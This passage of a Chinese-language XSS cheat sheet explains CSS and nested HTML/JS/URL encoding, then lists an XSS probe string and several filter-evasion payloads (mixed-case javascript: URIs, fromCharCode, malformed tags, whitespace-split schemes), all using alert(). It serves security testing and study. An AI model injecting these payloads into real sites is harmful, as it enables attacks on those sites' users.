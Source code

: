 ## CSS编码

用一个反斜线`\`后面跟1~6位的十六进制数字，例：`e`编码为`\65`或`65`或`00065`

## 复合编码

在实际情况中经常会出现在多种环境嵌套下，可把这些情况称为符合编码，例如：

```html
<td onclick=”openUrl(add.do?userName=’<%=value%>’);”>11</td>
```

value的内容首先出现在一个URL中，这个URL在一段javascript中，而javascript代码又是html的一部分。所以解码的顺序就是HTML解码–>js解码–>url解码，那么正确的编码顺序就应该是url编码–>js编码–>html编码。

# 0x01 XSS定位器

可以通过输入一些特殊字符再根据其输出的状态观察是否存在漏洞

```html
'";!--<xx>=&{()}\
```

# 0x02 非常规写法

以下只列举语法相关的不常见的写法，编码问题可结合实际考虑

- javascript实现图片XSS

	```html
	<img src=" javascript:alert( 'xxx' );">
	```
	
- 无分号引号

	```html
	<iMg sRc=JaVaScrIPT:alert(`xss`)>

	<iMg src=JavAScript:alert(String.fromCharCode(88,83,83))>
	```

- 畸形的标签（被引号包裹的攻击向量）

	```html
	<!-- <IMG "$_GET['data']"> -->
	<IMG "><SCRIPT>alert(/XSS/)</SCRIPT>">
	```

- 空白字符分隔 javascript（经尝试，在当前google、firefox、edge、ie11中，img标签的src不支持javascript，下面仅仅是个例子，但是可以在其它支持javascript的标签比如ａ标签或其它支持这种写法的浏览器中使用）

	```html
	<!-- 引号与javascript之间可以插入任何0-32号字符（未验证） -->
	<!-- javascript可以被 空格、回车、空白(%00) 等多种字符分割 -->
	<img src=" ja v	ascript:alert(1);">
	```
